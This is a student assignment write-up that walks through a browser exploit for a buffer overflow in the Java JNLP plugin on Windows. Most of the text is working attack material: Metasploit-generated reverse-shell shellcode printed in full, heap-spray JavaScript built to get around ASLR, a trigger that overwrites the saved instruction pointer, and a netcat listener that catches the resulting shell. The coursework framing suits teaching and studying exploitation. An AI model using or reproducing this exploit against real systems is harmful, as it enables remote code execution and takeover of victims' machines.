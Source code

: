 # Assignment 2

Kevin Orr

In this assignment, we will take advantage in a buffer overflow vulnerability in
the Java JNLP plugin to obtain a reverse shell on a windows target.

## Generating payload in metasploit
For simplicity, the attacker will be listening on the same machine as the
victim, on port 2600:

    msf > use payload/windows/shell_reverse_tcp
    msf payload(shell_reverse_tcp) > options

    Module options (payload/windows/shell_reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST                      yes       The listen address
       LPORT     4444             yes       The listen port

    msf payload(shell_reverse_tcp) > set LHOST 127.0.0.1
    LHOST => 127.0.0.1
    msf payload(shell_reverse_tcp) > set LPORT 2600
    LPORT => 2600
    msf payload(shell_reverse_tcp) > generate -t js_le
    // windows/shell_reverse_tcp - 324 bytes
    // http://www.metasploit.com
    // VERBOSE=false, LHOST=127.0.0.1, LPORT=2600,
    // ReverseAllowProxy=false, StagerRetryCount=10,
    // StagerRetryWait=5.0, ReverseListenerThreaded=false,
    // PrependMigrate=false, EXITFUNC=process,
    // InitialAutoRunScript=, AutoRunScript=
    %ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%u3cac%u7c61%u2
    c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318
    %u493a%u348b%u018b%u31d6%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3%u0
    c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0%u5a5f%u128b%u8deb%u685d%u3233
    %u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4
    050%u4050%u6850%u0fea%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u0a00%u8928%u6ae6%u5610%u6857%ua599%u6174
    %ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900%u57e3%u5757%uf631%u126a%u5659%uf
    de2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5
    %u4ee0%u4656%u30ff%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb%u0575%u4
    7bb%u7213%u6a6f%u5300%ud5ff

## Crafting the exploit
First we must spray this shellcode into the heap. To circumvent ASLR, we want to
cover a very large chunk of memory with our shellcode, since we can't know
beforehand the exact address our shellcode starts. This also means that we will
want very large nop sleds. If increase the ratio of nop sled size to shellcode
size, this decreases the likelihood that we jump into the middle of our
shellcode, which will likely render it useless.

We construct our spray pattern of ~4MiB of nops followed by our shellcode:

    var nops = unescape("%u9090%u9090");
    var shellcode = unescape(
        '%ue8fc%u0082%u0000%u8960%u31e5%u64c0%u508b%u8b30%u0c52%u528b%u8b14%u2872%ub70f' +
        '%u264a%uff31%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf2e2%u5752%u528b%u8b10%u3c4a' +
        '%u4c8b%u7811%u48e3%ud101%u8b51%u2059%ud301%u498b%ue318%u493a%u348b%u018b%u31d6' +
        '%uacff%ucfc1%u010d%u38c7%u75e0%u03f6%uf87d%u7d3b%u7524%u58e4%u588b%u0124%u66d3' +
        '%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u5fe0' +
        '%u5a5f%u128b%u8deb%u685d%u3233%u0000%u7768%u3273%u545f%u4c68%u2677%uff07%ub8d5' +
        '%u0190%u0000%uc429%u5054%u2968%u6b80%uff00%u50d5%u5050%u4050%u4050%u6850%u0fea' +
        '%ue0df%ud5ff%u6a97%u6805%u007f%u0100%u0268%u0a00%u8928%u6ae6%u5610%u6857%ua599' +
        '%u6174%ud5ff%uc085%u0c74%u4eff%u7508%u68ec%ub5f0%u56a2%ud5ff%u6368%u646d%u8900' +
        '%u57e3%u5757%uf631%u126a%u5659%ufde2%uc766%u2444%u013c%u8d01%u2444%uc610%u4400' +
        '%u5054%u5656%u4656%u4e56%u5656%u5653%u7968%u3fcc%uff86%u89d5%u4ee0%u4656%u30ff' +
        '%u0868%u1d87%uff60%ubbd5%ub5f0%u56a2%ua668%ubd95%uff9d%u3cd5%u7c06%u800a%ue0fb' +
        '%u0575%u47bb%u7213%u6a6f%u5300%ud5ff'
    );

    while (nops.length <= 0x100000 - shellcode.length)
        nops += nops;
    nops += shellcode;

Allocate an array and copy our spray pattern into it 200 times:

    var a = new Array();
    for (i=0; i<200; i++) {
        // IE JS engine seems to not realocate strings unless they're different
        a[i] = String.fromCharCode(i) + nops;        // For some reason it seems necessary to actually access the data

        // otherwise it doesn't seem to be sprayed
        a[i].substr(0, 4);
    }

Note that we changed the spray pattern slightly for each element in the array.
Namely, we prefix each spray pattern with one extra character that is different
for each array member. This is to avoid copy-on-right (COW) optimizations in the
IE javascript engine. We also must perform some kind of write operation on each
item, again to avoid optimizing away the 200 items' allocations. We do this by
calling `String.substr`.

Finally, the exploit trigger:

    function trigger() {
        // Our heap spray winds up somewhere in the 0x10000000 - 0x20000000
        // range, so let's chose the address 0x14141414
        var buf = '';
        for (i=0; i<440; i++)
            buf += '\x14';

        var htmlTags =
            "<object type='application/x-java-applet'>" +
            "<param name='launchjnlp' value='1'>" +
            "<param name='docbase' value='" + buf + "'>" +
            "</object>";

        document.write(htmlTags);
    }

This inserts new DOM elements that immediately cause the JNLP plugin to be
launched. The buffer overflow vulnerability in the JNLP plugin can let us
overwrite the saved EIP in one of its functions, so we can jump to our sprayed
shellcode.

The jump address of `0x14141414` was chosen for two reasons:

* The heap spray was producing reliable results in the `0x10000000` to
  `0x20000000` range
* Instead of guessing the exact size of the buffer overflow that was necessary
  to overwrite the saved EIP, if we instead make our jump target the same byte
  repeated, we can overshoot the saved EIP without endangering our exploit. This
  allows us to overestimate the buffer overflow size

## Testing the exploit

Having a `netcat` server listening on port 2600 on the "attacker's" machine:

    C:\Windows\system32>nc -l -p 2600

After loading the page in IE and clicking the button, we see this on the
attacker's machine:

    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved.
